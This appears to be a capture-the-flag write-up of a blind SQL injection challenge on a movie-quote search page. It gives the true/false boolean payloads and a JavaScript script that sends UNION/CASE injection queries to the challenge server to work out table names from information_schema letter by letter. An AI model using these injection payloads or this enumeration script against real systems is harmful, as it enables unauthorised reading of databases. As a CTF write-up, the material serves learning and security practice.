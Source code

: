 >Black Hole! (400)

>[Houston...We lost the Key!](https://www.phrasemix.com/collections/the-25-most-famous-english-movie-quotes)
>Note: No automated tools allowed. Use custom written scripts with single thread/instance only.

The challenge was a blind SQL challenge. The search page searched in a database
with quotes from the above link. The challenge flag was in another table in the same
database. 

The 2 queries: `ma%' and 1=1 #` & `ma%' and 1=2 #` gave different outputs
and we were able to build script over that vulnerability to get the flag.
Unfortunately, I lost my final script because I wrote it inside /tmp, 
but here is an early version of a  JS based script we used to find the table names

```js
var ans = "";
var inject = "";
for(var j=0; j<22; j++)
for (var i=0; i<26; i++) {

  inject += String.fromCharCode(i+97) + "%";
  search = "' and 1=2 union select case when (select table_name from information_schema.tables where table_name like '%' and table_schema != 'performance_schema' and table_schema != 'mysql' and table_schema != 'information_schema' and table_schema != 'mysql' LIMIT 1, 1) LIKE '" + inject + "' then 1 else 0 end#";
  $.ajax({
    url: "https://cctc-3.cloudapp.net/cctc/level-7/validate.php",
    type: "POST",
    data: "search=" + search,
    async: false,
    success: function (data) {
      if (data.indexOf("Nothing Found") !== -1) {
        ans += inject;
        console.log(ans);
      } else {
    	ans += "_"
	  }
    },
    error: function (data) {
      console.log(data);
    }
  });
  inject = ans;
}
}
```
